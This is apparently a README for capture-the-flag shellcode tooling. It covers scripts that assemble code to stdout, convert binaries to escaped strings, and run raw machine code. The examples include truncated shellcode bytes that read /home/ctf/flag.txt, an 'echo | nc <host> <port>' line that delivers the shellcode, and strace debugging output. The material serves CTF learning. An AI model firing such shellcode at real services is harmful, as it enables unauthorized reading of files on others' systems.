 `ruby assemble-to-stdout.rb code.asm`

Asssembles the code and prints the binary machine code to stdout. Unfortunately, you can't do `nasm -o- file.asm`, so this solves that problem.

I frequently find it helpful to pipe output to `hexdump -C`:

```
$ ruby ./assemble-to-stdout.rb ./pwn.asm | hexdump -C
00000000  b8 05 00 00 00 e8 13 00  00 00 2f 68 6f 6d 65 2f  |........../home/|
00000010  63 74 66 2f 66 6c 61 67  2e 74 78 74 00 5b b9 00  |ctf/flag.txt.[..|
...
```

### binary-to-string.rb

You can pass this either .asm file (which will be assembled) or a .bin file (which will be used directly). It'll print it out in a way that can be used with `echo -ne` or in a C/Python/Ruby string.

For example:

```
$ ruby ./binary-to-string.rb ../readfile/solution/pwn.asm
\xb8\x05\x00\x00\x00\xe8\x13\x00\x00\x00\x2f\x68\x6f\x6d\x65\x2f\x63\x74\x66\x2f\x66\x6c\x61\x67\x2e\x74\x78...
```

From there, you can use it with `echo -ne` and `nc`:

`echo -ne "\xb8\x05\x00\x00\x00\xe8\x13\x00\x00\x00\x2f\x68\x6f\x6d\x65\x2f\x63\x74\x66\x2f\x66\x6c\x61\x67\x2e\x74\x78..." | nc <host> <port>`

### run_raw_code.c

This lets you test machine code by running it directly on the commandline:

```
$ ./run-raw-code ../readfile/solution/pwn
allocated 81 bytes of executable memory at: 0xf7fd5000

<garbage displayed here>
```

You can combine this with `strace` to debug shellcode:

```
$ strace ./run-raw-code ../readfile/solution/pwn
...
open("/home/ctf/flag.txt", O_RDONLY)    = -1 ENOENT (No such file or directory)
read(-2, 0xffffc560, 32)                = -1 EBADF (Bad file descriptor)
write(1, "\n\0\0\0\0P\375\367Q\0\0\0!\0\0\0\377\377\377\377\0\0\0\0\220\305\377\377\1\203\4\10", 32
```

(notice that the return from open() is -1 - the shellcode didn't work because the flag.txt file was missing!)

## Assembly reference

